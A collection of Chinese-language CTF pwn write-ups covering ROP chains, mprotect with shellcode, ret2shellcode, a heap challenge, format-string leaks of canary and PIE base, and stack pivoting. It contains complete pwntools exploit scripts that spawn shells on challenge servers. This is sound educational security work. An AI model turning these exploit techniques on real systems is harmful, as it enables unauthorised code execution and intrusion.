

# inndy_rop
>知识点：rop

checksec看了看文件，32位，只开了NX，然后放进IDA看看，发现很多函数，很复杂，那就是静态编译了，静态编译不会调用libc的函数，那就不能用ret2libc，然后发现了很明显的栈溢出
```c
int overflow()
{
  char v1[12]; // [esp+Ch] [ebp-Ch] BYREF

  return gets(v1);
}
```
ROPgadget有一个功能，直接利用程序中的片段拼凑rop链
```
ROPgadget --binary rop --ropchain
```
```
#!/usr/bin/env python3
# execve generated by ROPgadget

from struct import pack

# Padding goes here
 1 from pwn import *
 2 from struct import pack
 3 
 4 q = process('./rop')
 5 context.log_level = 'debug'
 6 
 7 def payload():
 8     p = 'a'*0xc + 'bbbb'
 9     p += pack('<I', 0x0806ecda) # pop edx ; ret
10     p += pack('<I', 0x080ea060) # @ .data
11     p += pack('<I', 0x080b8016) # pop eax ; ret
12     p += '/bin'
13     p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
14     p += pack('<I', 0x0806ecda) # pop edx ; ret
15     p += pack('<I', 0x080ea064) # @ .data + 4
16     p += pack('<I', 0x080b8016) # pop eax ; ret
17     p += '//sh'
18     p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
19     p += pack('<I', 0x0806ecda) # pop edx ; ret
20     p += pack('<I', 0x080ea068) # @ .data + 8
21     p += pack('<I', 0x080492d3) # xor eax, eax ; ret
22     p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
23     p += pack('<I', 0x080481c9) # pop ebx ; ret
24     p += pack('<I', 0x080ea060) # @ .data
25     p += pack('<I', 0x080de769) # pop ecx ; ret
26     p += pack('<I', 0x080ea068) # @ .data + 8
27     p += pack('<I', 0x0806ecda) # pop edx ; ret
28     p += pack('<I', 0x080ea068) # @ .data + 8
29     p += pack('<I', 0x080492d3) # xor eax, eax ; ret
30     p += pack('<I', 0x0807a66f) # inc eax ; ret
31     p += pack('<I', 0x0807a66f) # inc eax ; ret
32     p += pack('<I', 0x0807a66f) # inc eax ; ret
33     p += pack('<I', 0x0807a66f) # inc eax ; ret
34     p += pack('<I', 0x0807a66f) # inc eax ; ret
35     p += pack('<I', 0x0807a66f) # inc eax ; ret
36     p += pack('<I', 0x0807a66f) # inc eax ; ret
37     p += pack('<I', 0x0807a66f) # inc eax ; ret
38     p += pack('<I', 0x0807a66f) # inc eax ; ret
39     p += pack('<I', 0x0807a66f) # inc eax ; ret
40     p += pack('<I', 0x0807a66f) # inc eax ; ret
41     p += pack('<I', 0x0806c943) # int 0x80
42     return p
43 shell = payload()
44 q.sendline(shell)
45 q.interactive()
```
所以只要加一个偏移量就行了
```python
from pwn import*
from struct import*     #pack
#io=process('./rop')
io=remote('node5.buuoj.cn',26760)
p=b'a'*(0xc+4)
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080b8016) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080b8016) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080de769) # pop ecx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0806c943) # int 0x80
io.sendline(p)
io.interactive()

```
脚本的解释
```bash
工具函数说明
pack('<I', addr)


把 32-bit 地址按 小端 (<I) 打包为 4 字节，用于放在 payload 中作为“返回地址 / 参数”。

写入字符串 "/bin//sh" 到 .data 段

这段通过一系列 pop / mov [edx], eax gadget 把字符串写入可写内存（.data）：

# 写入 "/bin" 到 .data
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea060) # address: @ .data
p += pack('<I', 0x080b8016) # pop eax ; ret
p += b'/bin'               # 4 字节
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret


思路：先用 pop edx 将目标地址放到 edx（指向 .data），再 pop eax 将要写入的 4 字节放到 eax，最后用 mov [edx], eax 把 eax 的 4 字节写入内存。

然后写入 //sh（注意双斜杠）到 .data+4：

p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080b8016) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret


'/bin' + '//sh' 组合成 "/bin//sh"（双斜杠是合法的，execve 能接受，常用于使字符串恰好对齐 8 字节）。

再写入一个 null 终止（4 字节 0）到 .data+8：

p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret


xor eax, eax 把 eax 清零，然后 mov [edx], eax 写 0，使字符串以 \x00 结尾（C 字符串终止符）。

总结：现在内存 0x080ea060 处存放 "/bin//sh\0"，正好适合作为 execve 的第一个参数（指针指向该字符串）。

设置寄存器准备 execve("/bin//sh", argv=NULL, envp=NULL)

execve 在 Linux x86 通过 int 0x80 使用 syscall number 11（即 eax = 11），参数如下：

ebx -> 指向 filename（字符串地址）

ecx -> argv（指针数组），这里传 NULL

edx -> envp，传 NULL

脚本依次设置这三个寄存器：

p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # ebx = @ .data  (pointer to "/bin//sh")

p += pack('<I', 0x080de769) # pop ecx ; ret
p += pack('<I', 0x080ea068) # ecx = @ .data + 8  (这里指向 NULL 写入处)

p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # edx = @ .data + 8  (同上, 指向 NULL)


ecx 和 edx 都被设为指向 .data+8，而我们之前已经在 .data+8 写入了 0（null），所以 ecx / edx 实际上相当于 NULL 指针（即 argv=NULL, envp=NULL）。

把 eax 设为 11（sys_execve 的 syscall 编号）

脚本用了先清零 eax（xor eax, eax），然后连续执行 11 次 inc eax：

p += pack('<I', 0x080492d3) # xor eax, eax ; ret
# 然后连续 11 次：
p += pack('<I', 0x0807a66f) # inc eax ; ret
... (共 11 次 inc)


结果：eax = 11。

（注意：也可以寻找 pop eax; ret 然后写 11，但很多二进制没有直接把小常数放到 eax 的 gadget，所以用 xor + 多次 inc 是常见做法。）

发起系统调用：int 0x80

最后调用 int 0x80 gadget 发起系统调用：

p += pack('<I', 0x0806c943) # int 0x80


在此时 eax=11, ebx=ptr("/bin//sh"), ecx=0, edx=0，因此内核会执行 execve("/bin//sh", NULL, NULL)，成功的话进程会被替换成 /bin/sh，脚本最后 io.interactive() 给你交互式 shell。
```
第二种方法：
利用mprotect(),这是静态编译一定存在的函数，可以对某个地址的权限进行修改，将其修改为可读可写可执行

需要注意的是，参数addr必须是4kb的整数倍,也就是0x1000(4096=0x1000)字节的整数倍,size的大小也得是0x1000的整数倍，想要可读可写可执行，prot传入7就可以了，接下来我们可以找找要更改的地址

刚好0x80e9000满足0x1000的倍数，第二个参数设置成0x2000
先利用栈溢出使用mprotext函数，返回地址为主函数，然会利用read函数写入shellcode
```python
from pwn import*
from struct import*     #pack
#io=process('./rop')
io=remote('node5.buuoj.cn',27234)

mprotext_adr=0x0806DDA0
make_adr=0x80e9000 
main_adr=0x08048894
payload=b'a'*(0xc+0x4)+p32(mprotext_adr)+p32(main_adr)+p32(make_adr)+p32(0x2000)+p32(0x7)
io.sendline(payload)
shellcode = asm(shellcraft.sh(),arch='i386',os='linux')
read_adr=0x0806D290
payload = b"A"*(0xc+0x4) + p32(read_adr) + p32(make_adr) + p32(0) + p32(make_adr) + p32(len(shellcode))

io.sendline(payload)

io.sendline(shellcode)

io.interactive()
```

# babyheap_0ctf_2017
>知识点：heap

保护全开，看题目提示是堆漏洞,仔细看看题目

主函数
```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  __int64 v4; // [rsp+8h] [rbp-8h]

  v4 = sub_B70(a1, a2, a3);
  while ( 1 )
  {
    sub_CF4();
    switch ( sub_138C() )
    {
      case 1LL:
        sub_D48(v4);
        break;
      case 2LL:
        sub_E7F(v4);
        break;
      case 3LL:
        sub_F50(v4);
        break;
      case 4LL:
        sub_1051(v4);
        break;
      case 5LL:
        return 0LL;
      default:
        continue;
    }
  }
}
```
sub_B70()
```c
char *sub_B70()
{
  int fd; // [rsp+4h] [rbp-3Ch]
  char *addr; // [rsp+8h] [rbp-38h]
  unsigned __int64 v3; // [rsp+10h] [rbp-30h]
  __int64 buf[4]; // [rsp+20h] [rbp-20h] BYREF

  buf[3] = __readfsqword(0x28u);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  alarm(0x3Cu);
  puts("===== Baby Heap in 2017 =====");
  fd = open("/dev/urandom", 0);
  if ( fd < 0 || read(fd, buf, 0x10uLL) != 16 )
    exit(-1);
  close(fd);
  addr = (char *)((buf[0] % 0x555555543000uLL + 0x10000) & 0xFFFFFFFFFFFFF000LL);
  v3 = (buf[1] % 0xE80uLL) & 0xFFFFFFFFFFFFFFF0LL;
  if ( mmap(addr, 0x1000uLL, 3, 34, -1, 0LL) != addr )
    exit(-1);
  return &addr[v3];
}
```
里面有个mmp函数，整个函数是用来获取一片函数空间


sub_D40
```c
void __fastcall sub_D48(__int64 a1)
{
  int i; // [rsp+10h] [rbp-10h]
  int v2; // [rsp+14h] [rbp-Ch]
  void *v3; // [rsp+18h] [rbp-8h]

  for ( i = 0; i <= 15; ++i )
  {
    if ( !*(_DWORD *)(24LL * i + a1) )
    {
      printf("Size: ");
      v2 = sub_138C();
      if ( v2 > 0 )
      {
        if ( v2 > 4096 )
          v2 = 4096;
        v3 = calloc(v2, 1uLL);
        if ( !v3 )
          exit(-1);
        *(_DWORD *)(24LL * i + a1) = 1;//表示堆的创建，该空间已经被使用
        *(_QWORD *)(a1 + 24LL * i + 8) = v2;//堆大小
        *(_QWORD *)(a1 + 24LL * i + 16) = v3;//表示储存首地址
        printf("Allocate Index %d\n", (unsigned int)i);
      }
      return;
    }
  }
}
```
循环16次，先判断空间是否被使用，然后要求输入堆的大小，要求0<szie<4096，然后申请空间
sub_E7F(v4)
```c
__int64 __fastcall sub_E7F(__int64 a1)
{
  __int64 result; // rax
  int v2; // [rsp+18h] [rbp-8h]
  int v3; // [rsp+1Ch] [rbp-4h]

  printf("Index: ");
  result = sub_138C();//输入编辑的chunk
  v2 = result;
  if ( (unsigned int)result <= 0xF )
  {
    result = *(unsigned int *)(24LL * (int)result + a1);
    if ( (_DWORD)result == 1 )
    {
      printf("Size: ");
      result = sub_138C();
      v3 = result;
      if ( (int)result > 0 )
      {
        printf("Content: ");
        return sub_11B2(*(_QWORD *)(24LL * v2 + a1 + 16), v3);
      }
    }
  }
  return result;
}
```
这个函数意思是输入你要编辑的chunk，然后检测结构体第一个看看堆是否存在
然后输入想要编辑的堆大小，然后再读入size大小到chunk

sub_F50:sub_F50:普通的堆释放函数
```c
__int64 __fastcall sub_F50(__int64 a1)
{
  __int64 result; // rax
  int v2; // [rsp+1Ch] [rbp-4h]

  printf("Index: ");
  result = sub_138C();
  v2 = result;
  if ( (unsigned int)result <= 0xF )
  {
    result = *(unsigned int *)(24LL * (int)result + a1);
    if ( (_DWORD)result == 1 )
    {
      *(_DWORD *)(24LL * v2 + a1) = 0;
      *(_QWORD *)(24LL * v2 + a1 + 8) = 0LL;
      free(*(void **)(24LL * v2 + a1 + 16));
      result = 24LL * v2 + a1;
      *(_QWORD *)(result + 16) = 0LL;
    }
  }
  return result;
}
```
然后是打印函数
```c
int __fastcall sub_1051(__int64 a1)
{
  int result; // eax
  int v2; // [rsp+1Ch] [rbp-4h]

  printf("Index: ");
  result = sub_138C();
  v2 = result;
  if ( (unsigned int)result <= 0xF )
  {
    result = *(_DWORD *)(24LL * result + a1);
    if ( result == 1 )
    {
      puts("Content: ");
      sub_130F(*(_QWORD *)(24LL * v2 + a1 + 16), *(_QWORD *)(24LL * v2 + a1 + 8));
      return puts(byte_14F1);
    }
  }
  return result;
}
```
关于堆函数中的参数可以参考[文章](https://blog.csdn.net/weixin_43847969/article/details/104897249)


# [HNCTF 2022 Week1]ret2shellcode
>知识点：ret2shellcode

checksec:
```bash
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
没有找到后门函数，考虑shellcode
主函数：
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[256]; // [rsp+0h] [rbp-100h] BYREF

  setbuf(stdin, 0LL);
  setbuf(stderr, 0LL);
  setbuf(stdout, 0LL);
  mprotect((void *)((unsigned __int64)&stdout & 0xFFFFFFFFFFFFF000LL), 0x1000uLL, 7);
  memset(s, 0, sizeof(s));
  read(0, s, 0x110uLL);
  strcpy(buff, s);
  return 0;
}
```
很明显read有栈溢出，又复制到buff中

buff又在.bass中
```bash
在采用段式内存管理的架构中（比如 intel 的 80x86 系统），bss 段（Block Started by Symbol segment）通常是指用来存放程序中未初始化的全局变量的一块内存区域，一般在初始化时 bss 段部分将会清零（bss 段属于静态内存分配，即程序一开始就将其清零了）。比如，在 C 语言程序编译完成之后，已初始化的全局变量保存在.data 段中，未初始化的全局变量保存在.bss 段中
简单来说，定义而没有赋初值的全局变量和静态变量 , 放在这个区域
```
但之前checksec发现有NX保护栈不可执行，又看到主函数有mprotect函数可以修改权限，也就是说在经过函数mprotect后，部分地址可以执行

用gdb调试看到0x404000后的地址有执行权限了，所以使用shellcode是可以用的
exp:
```python
from pwn import*
context(log_level = "debug", arch = 'amd64')
io=remote('node5.anna.nssctf.cn',27315)
buff_adr=0x04040A0
shellcode=asm(shellcraft.sh())
padding=0x100+0x8
payload=shellcode.ljust(padding,b'a')+p64(buff_adr)
io.sendline(payload)
io.interactive()

```
context 是 pwntools 用来设置环境的功能。在很多时候，由于二进制文件的情况不同，我们可能需要进行一些环境设置才能够正常运行exp，比如有一些需要进行汇编，但是32的汇编和64的汇编不同，如果不设置context会导致一些问题。

一般来说我们设置context只需要简单的一句话:

context(os='linux', arch='amd64', log_level='debug')

或者 context(os='linux', arch='amd64')
```bash
1. os设置系统为linux系统，在完成ctf题目的时候，大多数pwn题目的系统都是linux
2. arch设置架构为amd64，可以简单的认为设置为64位的模式，对应的32位模式是’i386’
3. log_level设置日志输出的等级为debug，这句话在调试的时候一般会设置，这样pwntools会将完整的io过程都打印下来，使得调试更加方便，可以避免在完成CTF题目时出现一些和IO相关的错误。
```

有些shellcode题目会限制shellcode的输入，这时候就要自己去生成具体看[这个](https://blog.csdn.net/SmalOSnail/article/details/105236336)


# ezfmt
>格式化漏洞

格式转换

格式化字符串是由普通字符（包括%）和转换规则构成的字符序列。普通字符被原封不动地复制到输出流中。转换规则根据与实参对应的转换指示符对其进行转换，然后将结果写入到输出流中。

转换规则由可选的部分和必选部分组成。其中只有转换指示符type是必选部分，用来表示转换类型。

用 printf() 为例，它的第一个参数就是格式化字符串 ：“Color %s,Number %d,Float %4.2f”

然后 printf 函数会根据这个格式化字符串来解析对应的其他参数
```
%d - 十进制 - 输出十进制整数

%s - 字符串 - 从内存中读取字符串

%x - 十六进制 - 输出十六进制数

%c - 字符 - 输出字符

%p - 指针 - 指针地址

%n - 到目前为止所写的字符数

%hhn - 写1字节

%hn - 写2字节

%ln - 写4个字节

%lln - 写8字节
```
```
格式化字符串中还存在一个不怎么常用的”%n“，该占位符不用于输出，而是将”当前已打印的字符数写入%n所对应的地址参数中“
如果n缺少参数，就会把打印的字符数输入到上一个地址中

同时，还可以用”%?$p“来指示该占位符使用第?个参数

有了上述两个占位符，我们就能达成”任意地址读写“这一严重的结果

因为我们只需要将”期望写入的地址+填充+%?$n“传入，就能往任何地方写入任意数了

类比例题，如果我们将printf的got表修改为system，再传入”/bin/sh“，就变相执行了

system("/bin/sh")
```
```
 n$，获取格式化字符串中的指定参数，比如%6$p表示从当前地址数起，获取往后偏移第6个字节长度的地址，类似于"%p%p%p%p%p%p"，但是前五个"%p"不会生效
 但是需要注意64位程序，前6个参数是存在寄存器中的，从第7个参数开始才会出现在栈中，所以栈中从格式化串开始的第一个，应该是%7$n
 如图所示
 ```
代码：
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[256]; // [rsp+0h] [rbp-110h] BYREF
  void *v5; // [rsp+100h] [rbp-10h]
  int fd; // [rsp+10Ch] [rbp-4h]

  setbuf(stdin, 0LL);
  setbuf(stderr, 0LL);
  setbuf(stdout, 0LL);
  puts("Welcome to the world of fmtstr");
  puts("> ");
  fd = open("flag", 0);
  if ( fd == -1 )
    perror("Open failed.");
  read(fd, &name, 0x30uLL);
  v5 = &name;
  puts("Input your format string.");
  read(0, buf, 0x100uLL);
  puts("Ok.");
  printf(buf);
  return 0;
}
```
可以看到它想要·打开·一个flag文件，然后写入到name中，很明显后面的printf有字符串漏洞，通过写入aaaa %p %p %p %p %p %p %p %p %p %p
发现偏移量为6，然后应该动态调试，创建一个flag文件，随便输入个flag，在主函数设置断点，然后ni一步步调试，发现

然后使用fmt +地址获得偏移量求取

发现是38


# [深育杯 2021]find_flag

>格式化字符串漏洞


```
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled

```
```c
unsigned __int64 sub_132F()
{
  char format[32]; // [rsp+0h] [rbp-60h] BYREF
  char v2[56]; // [rsp+20h] [rbp-40h] BYREF
  unsigned __int64 v3; // [rsp+58h] [rbp-8h]
 
  v3 = __readfsqword(0x28u);
  printf("Hi! What's your name? ");
  gets(format);
  printf("Nice to meet you, ");
  strcat(format, "!\n");
  printf(format);
  printf("Anything else? ");
  gets(v2);
  return __readfsqword(0x28u) ^ v3;
}
```
可以看出来有格式化字符串漏洞，也有栈溢出，但是开了canary保护和pie保护，放进IDAshift+f12看到有后门函数，可以考虑通过字符串漏洞泄漏出canary和一个函数地址，先了解canary，是在rbp前八个字节输入一个字符串，当程序要结束时就比较字符串是否还是之前的那个，pie则是开启随机地址，现在去进行调试，在printf那里打个断点，stack查看

可以看到
0x7fffffffded8 ◂— 0x67109c0ad75a600就是canary
然后要泄漏基址，可以选择rbp下面一个的地
0x55555555546f ◂— mov eax, 0，这个地址的内容是对应程序中的某一次 mov eax, 0，有经验的话应该会注意到这些红色的地址只有最后的几位是不一样的，再加上开启了 PIE 导致在 IDA 中看到的地址只有最后四位（也就是实际偏移），那么来验证一下这个猜想，0x*46f 在 IDA 中能不能找到这条指令：


shell的地址是0x1228
可以用0x146f-0x1228得到这两个中间的偏移量，进行使用
用fm找到canary和函数的偏移量

接下来构造exp：
```python
from pwn import *
context.log_level = 'debug'
io = remote("node4.anna.nssctf.cn",28116)
 
payload = '%17$p'+'%19$p'
io.sendlineafter('name? ',payload)
io.recvuntil('Nice to meet you, ')
canary = int(io.recv(18),16)
addr = int(io.recv(14).decode(),16)
main = 0x146f
shell = 0x1228
offset = main-shell
shelladdr = addr-offset
 
io.recvuntil('Anything else? ')
payload = b'a'*(0x40-8)+p64(canary)+b'a'*8+p64(shelladdr)
 
io.sendline(payload)
io.interactive()
```
也可以计算基址，构造rop
```python
from pwn import *
context.log_level = 'debug'

local = 1
if local:
	p = process('ff')
else:
	p = remote('node4.anna.nssctf.cn',28116)

elf = ELF('./ff')

context.log_level = 'debug'
context(arch='amd64',os='linux')

p.recvuntil(b'name? ')
payload1 = b'%17$p---%19$p'
p.sendline(payload1)
p.recvuntil(b'you, ')

canary = int(p.recv(18), 16)
print(hex(canary))

p.recvuntil(b'---')
base = int(p.recv(14), 16)
print(hex(base))

Base = base - 0x146F

system = Base + elf.sym['system']
catflag = Base + 0x2004
#ropgadget
rdi = Base + 0x14E3
ret = Base + 0x101A

payload = b'a'*0x38 + p64(canary) + b'a'*8 + p64(ret) + p64(rdi) + p64(catflag) + p64(system)
p.recvuntil(b'else? ')
p.sendline(payload)
p.recv()
p.interactive()
```

# [HUBUCTF 2022 新生赛]fmt

字符串倒转：
大小端序的问题，大端序将数据的低位字节存放在内存的高位地址，高位字节存放在低位地址；
小端序将一个多位数的低位放在较小的地址处，高位放在较大的地址处。而计算机的内部处理都是小端字节序；在计算机内部，小端序被广泛应用于现代 CPU 内部存储数据；而在其他场景，比如网络传输和文件存储则使用大端序


上图为小端序的存储状况，作为高位字节的12就放在了低地址
```bash
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

# p = process('./fmt')
p = remote('node5.anna.nssctf.cn', 28209)

# get flag
flag_addr = 12
flag = ''
while True:
    p.sendlineafter(b'Echo as a service', '%{}$p'.format(flag_addr))
    p.recvuntil(b'0x')
    part = p.recvuntil(b'\n')[:-1]
    for i in range(0, len(part), 2):
        index = len(part) - i
        flag += chr(int(part[index - 2:index].ljust(2, b'0'), 16))
    print(flag)
    if '}' in flag:
        break
    flag_addr += 1


```


# hdctf 

>栈迁移 


[参考](https://www.uf4te.cn/posts/6f874503.html#%E6%80%9D%E8%B7%AF%E4%BA%8C-%E6%A0%88%E8%BF%81%E7%A7%BB)
```c
__int64 vuln()
{
  char s[80]; // [rsp+0h] [rbp-50h] BYREF

  memset(s, 0, sizeof(s));
  puts("please show me your name: ");
  read(0, s, 0x48uLL);
  printf("hello,");
  printf(s);
  puts("keep on !");
  read(0, s, 0x60uLL);
  return 0LL;
}
```
这是主要函数，有格式化漏洞，已有栈溢出，但是栈溢出的位置有限，只能溢出到返回值的位置，这样构造的ROP链不能完全写入到栈上，需要进行栈迁移
，栈迁移必需得到旧的rbp，

泄露出旧的rbp偏移在16，就可以得到旧的rbp地址
```python
io.send(b'%16$p')
io.recvuntil(b'hello')
pre_rbp = int(io.recv(12),16)
```
这里pre_rbp = int(io.recv(12),16)不可以用u64()那一个语句，因为这里我们接收的其实就是一段16进制数据而并不是一串字符序列